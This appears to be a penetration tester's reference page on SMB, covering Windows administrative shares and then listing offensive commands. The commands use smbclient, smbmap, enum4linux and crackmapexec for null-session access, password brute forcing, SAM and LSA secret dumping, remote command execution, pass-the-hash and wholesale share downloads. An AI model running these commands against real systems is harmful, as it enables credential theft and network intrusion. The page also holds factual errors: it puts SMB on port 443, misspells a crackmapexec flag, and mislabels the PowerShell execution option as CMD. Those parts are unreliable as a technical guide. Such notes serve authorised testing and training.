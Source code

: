 - Server Message Block.
- Used to share folders, printers, resources.
- Works over
	- Port 139 over NetBIOS (Older machines)
	- Port 443 over TCP
# Shares
Folders that a machine shares in order to be accessed by other computer/users.
### ADMIN$
- The `%SystemRoot%` directory of the machine. Only accessible to Administrators of the machine.
### C$
- The C:\ drive of the machine, only accessible to Administrators of that machine.
### IPC$
- A special share that is used `Inter Process Communication` used by [MSRPC](MSRPC.md).
- Performs actions such as:
	- List all shares
	- List all users
	- List files within a share
	- Start/stop services
### SYSVOL
- A special share in domain controllers that stores [Group Policy](Group%20Policy.md), scripts, junction point.
### NETLOGON
- This share is used to store logon scripts (executes when user logs in) and other files.

# Enumeration
### smbclient
FTP-like client for SMB 
```bash
# List Shares
smbclient -U "[domain\]username%password" -L //<hostname/IP>
# Connect to a share
smbclient -U "[domain\]username%password" //<hostname/IP>/C$
# Anonymous Login/Null Session
smbclient --no-pass -L //<hostname/IP>
smbclient -U "%" -L //<hostname/IP>
```
### enum4linux
```bash
enum4linux -a -u <username> -p <password> <target>
```
### smbmap.py
```bash
smbmap.py -H <target> [options]
```
- `-u <username>`
- `-p <password>
- `-r <sharename>` : list content of the share
- `-x <command>` : execute command remotely
- `--upload <file> <sharepath>` : upload to file share
- `--down <file>` : download from file share
### crackmapexec
```bash
# List shares
cme smb <target> -u <username> -p <password>
# Test null session
cme smb <target> -u '' -p '' --shares

# Brute force passwords 
cme smb <target> -u ./user.txt -p ./pass.txt
cme smb <target> -u ./user.txt -p ./pass.txt --continue-on-success

# list shares
cme smb <target> -u <username> -p <password> --shares
# dump sam database of the target
cme smb <target> -u <username> -p <password> --sam
# dump lsa secrets from lsass memory
cme smb <target> -u <username> -p <password> --lsa
# get sessions
cme smb <target> -u <username> -p <password> --sessions
# Get loggedon users
cme smb <target> -u <username> -p <password> --loggonon-users
# list disks
cme smb <target> -u <username> -p <password> --disks
# list users
cme smb <target> -u <username> -p <password> --users
# list groups
cme smb <target> -u <username> -p <password> --groups
# list local groups
cme smb <target> -u <username> -p <password> --local-groups
# list password policy
cme smb <target> -u <username> -p <password> --pass-pol

# Execute commands
cme smb <target> -u <username> -p <password> -x 'command' # CMD
cme smb <target> -u <username> -p <password> -X 'powershell' # CMD

# Pass the hash
cme smb <target> -u <username> -H <hash>

# list smb modules
cme smb -L
# Use modules
cme smb <target> <option> -M <module_name>
```
### Cloning entire share
```bash
smbclient //domain.loc/sharename
smb: \> RECURSE ON # set recursive to on
smb: \> PROMPT OFF # do no ask y/n for every directory
smb: \> mget * # get everyhing * = wildcard
```
